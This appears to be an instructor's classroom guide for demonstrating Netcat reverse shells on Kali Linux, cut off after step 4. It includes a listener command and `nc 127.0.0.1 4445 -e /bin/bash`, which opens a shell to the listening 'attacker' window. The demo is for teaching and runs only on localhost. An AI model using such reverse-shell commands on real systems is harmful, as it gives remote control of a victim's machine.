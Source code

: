 Note that this demonstration will not show an exploit, but will show how certain exploits utilize shells to provide the attacker terminal access on a target.

1. In Kali, open a terminal and type `nc -h` to show the Help menu for Netcat.
    - Inform students that the old version of Netcat was accessed by typing `ncat`. We use `nc` to access the new version, which has additional functionality.

**Reverse Shells**

2. First, you'll demonstrate a reverse shell. Use Netcat to listen on port 4445 by typing `nc -lvp 4445`, as the following image shows:

   ![A screenshot depicts the command in the terminal.](images/netcat1.png)

   - This will act as the attacker's host, which is now listening for a connection from a remote machine.
   - Point out that the flags used are: `l` (listen), `v` (verbose), `p` (port).
 
3. Open another terminal window (not tab) and position it next to the current terminal window where `nc` is listening, as the following image shows: 

    ![A screenshot depicts the two terminals side by side.](images/netcat2.png)

    This new window will act as the victim/target machine.

4. In the new window, connect to port 4445 on the attacker's host window by typing `nc 127.0.0.1 4445 -e /bin/bash`, as the following image shows:

	 ![A screenshot depicts the command in the terminal window.](images/netcat3.png)
	